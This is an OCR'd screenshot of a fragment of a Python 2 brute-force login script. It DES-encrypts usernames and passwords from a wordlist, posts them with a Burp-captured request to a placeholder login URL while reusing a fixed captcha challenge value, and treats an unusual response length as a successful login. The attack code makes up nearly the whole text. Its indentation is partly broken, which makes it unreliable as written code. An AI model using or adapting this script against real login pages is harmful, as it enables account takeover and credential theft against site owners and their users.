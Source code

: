 ```plain
                    print uname
                    desUsername = mzDes(s,uname)
                    print desUsername

                    pwd = pwds.readlines()
                    for p in pwd:
                        passwd = p.strip()
                        print passwd
                        desPassword = mzDes(s,passwd)
                        print desPassword




                        burp0_url = "https://yyy.xxx.com:443/login"
                        burp0_cookies = {"acw_tc": "2", "session.id": "5e"}
                        burp0_headers = {"User-Agent": "Mozilla/5.0 Firefox", "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8", "Accept-Language": "en-US,en;q=0.5", "Content-Type": "application/x-www-form-urlencoded", "Origin": "https://yyy.xxx.com", "Connection": "close", "Referer": "https://yyy.xxx.com/login", "Upgrade-Insecure-Requests": "1"}
                        burp0_data = {"usernumber": "test", "username": desUsername, "password": desPassword, "geetest_challenge": "caaf52fec"}

                        rsp = requests.post(burp0_url, headers=burp0_headers, cookies=burp0_cookies, data=burp0_data)

                        #print rsp.headers['content-length']
                        #if rsp.headers['content-length'] != 23862:
                        #   print 'success!!!'
                        print len(rsp.content)
                        if len(rsp.content) != 23862:
                        print 'success'
                        successCount = successCount + 1
                        pattern = re.compile(r'<p class="login-error" id="errorTips">(.*?)</p>')

                        bruteResult = pattern.search(rsp.text)
                        print bruteResult

print successCount
```

[![](assets/1698897578-9f2b70ee30d24cf04292f94aeb4284d2.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200206160200-f3f6ab2e-48b6-1.png)
